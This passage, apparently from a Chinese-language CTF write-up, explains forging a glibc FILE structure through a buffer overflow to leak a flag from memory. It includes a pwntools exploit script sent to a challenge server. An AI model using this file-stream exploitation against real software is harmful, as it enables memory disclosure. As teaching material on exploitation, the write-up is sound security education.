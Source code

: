 ![](assets/1-9.png)
此時可看到由於自己另外加的 code 而導致 buf 位址後面存的內容變得不一樣了\
也就是 fp 結構裡的內容已變成我們想要的樣子\
而紅框的部分則是有改變的內容\
1. 0xfbad0800：fp->_flags\
2. 0x404050：fp->_IO_read_end 和 fp->_IO_write_base，也就是 flag 變數的位址
![](assets/1-10.png)
3. 0x404060：fp->_IO_write_ptr，即 flag 變數的位址 + flag 變數的大小\
4. 0x1：fp->_fileno，1 表示 stdout

而且會發現 flag 變數的位址每次執行時都不會改變\
因此只要透過 overflow 將 buf 位址後面的內容竄改為這樣子就行了\
撰寫解題腳本，用 flat 將 payload 包成以 8 bytes 對齊
```python
# FILE_AAR/solve.py
from pwn import *

context.arch = 'amd64'
#context.terminal = ['tmux', 'splitw', '-h']
#r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10010)

flags = 0
NO_WRITES = 0x8
MAGIC = 0xfbad0000
CURRENTLY_PUTTING = 0x0800
flags &= ~NO_WRITES
flags |= (MAGIC | CURRENTLY_PUTTING)
# print(hex(flags)) # 0xfbad0800

payload = flat(
    0, 0,
    0, 0x1e1,
    flags, 0,
    0x404050, 0,
    0x404050, 0x404060,
    0, 0,
    0, 0,
    0, 0,
    0, 0x7ffff7fbc5c0,
    0x1
)
#gdb.attach(r)
r.sendline(payload)
print(r.recvline().decode().strip())
```
這邊要注意的是 fileno 後面的內容由於每次執行時都會不同\